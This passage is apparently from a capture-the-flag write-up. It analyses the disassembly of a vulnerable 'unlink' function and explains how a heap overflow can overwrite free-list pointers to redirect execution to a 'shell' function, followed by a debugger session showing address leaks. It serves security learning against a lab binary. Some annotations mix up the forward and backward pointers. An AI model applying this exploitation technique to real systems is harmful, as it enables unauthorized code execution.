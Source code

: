 Let's look at `unlink` and see if we can exploit it using the given heap overflow: (Look at the notes i put in the disassembly)
```bash
gef➤  disas unlink
Dump of assembler code for function unlink:
   0x08048504 <+0>:	push   %ebp
   0x08048505 <+1>:	mov    %esp,%ebp
   0x08048507 <+3>:	sub    $0x10,%esp
   0x0804850a <+6>:	mov    0x8(%ebp),%eax <- Address of `P`
   0x0804850d <+9>:	mov    0x4(%eax),%eax
   0x08048510 <+12>:	mov    %eax,-0x4(%ebp) <- Save address of the backwards pointer of `P` (`FD`)
   0x08048513 <+15>:	mov    0x8(%ebp),%eax
   0x08048516 <+18>:	mov    (%eax),%eax <- Save address of the forwrads pointer of `P` (`BK`)
   0x08048518 <+20>:	mov    %eax,-0x8(%ebp)
   0x0804851b <+23>:	mov    -0x8(%ebp),%eax - Load `BK` into eax
   0x0804851e <+26>:	mov    -0x4(%ebp),%edx - Load `FD` into edx
   0x08048521 <+29>:	mov    %edx,0x4(%eax) <- `BK->fd = FD` (1)
   0x08048524 <+32>:	mov    -0x4(%ebp),%eax
   0x08048527 <+35>:	mov    -0x8(%ebp),%edx
   0x0804852a <+38>:	mov    %edx,(%eax) <- `FD->bk=BK` (2)
   0x0804852c <+40>:	nop
   0x0804852d <+41>:	leave  
   0x0804852e <+42>:	ret    
End of assembler dump.
```

We can either exploit (1) or (2), since we write to an address, if we use (1) as an example in our `unlink(B)` call.

We can do the heap overflow and make sure `B->fd` is the address of the pointer to target function `shell` and `B->bk` is `$ebp-4`, so actually `B->fd` needs to be the address of the pointer to the `shell` address + 4,
Because we perform `lea    -0x4(%ecx),%esp`.

This should work because `B` will have 2 overwritten pointers:
- `B->fd` will become the address of the pointer to `shell` address (which is an address inside the heap)
- `B->bk` will become `$ebp-8`

Then when `BK->fd=FD` is executed what happens will be as follows:
- `BK->fd` is actually `B->bk->fd` but `B->bk` is `$ebp-8`, so we access this address, then `->fd` adds 4 bytes to it and we write to it `FD` which is `B->fd`, the address of the pointer to the address of `shell`.

So to sum it up, we wrote to `$ebp-4` the pointer of the address of `shell`

So then the final `lea` instruction will put `shell` address in `$esp` and we should jump to it on `ret`.

But how do we know to point to our inserted `shell` address?
<b>We know we start inserting data in `A`+ 0x08, so we can just point to `A`+0x1C so when we subtract 4 we'd point to `A`+0x08.</b>

Let's find out how far is `$ebp` from the leaked stack address:
```bash
gef➤  b *0x080485ff
Breakpoint 1 at 0x80485ff
gef➤  r
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
here is stack address leak: 0xffce9224
here is heap address leak: 0x837b5b0
now that you have leaks, get shell!
[....]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
```